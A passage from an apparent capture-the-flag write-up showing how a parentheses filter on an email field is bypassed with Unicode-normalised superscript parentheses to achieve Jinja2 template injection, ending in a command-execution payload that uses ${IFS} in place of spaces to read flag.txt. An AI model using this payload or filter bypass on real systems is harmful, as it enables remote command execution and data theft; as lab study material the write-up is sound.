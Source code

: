 ![deafcon2](./images/deafcon2.png)

More experimentation showed that the parantheses filter could be bypassed by unicode normalization. Links found [here](https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html)

```
{{⁽⁾.__class__}}@b.com --> would reflect output
```

And then RCE can be achieved using this payload. Note that spaces are not allowed in the email, so it can be replaced with the field separator of `${IFS}`

```
{{cycler.__init__.__globals__.os.popen⁽'cat${IFS}flag.txt'⁾.read⁽⁾}}@b.com
```

![deafcon3](./images/deafcon3.png)
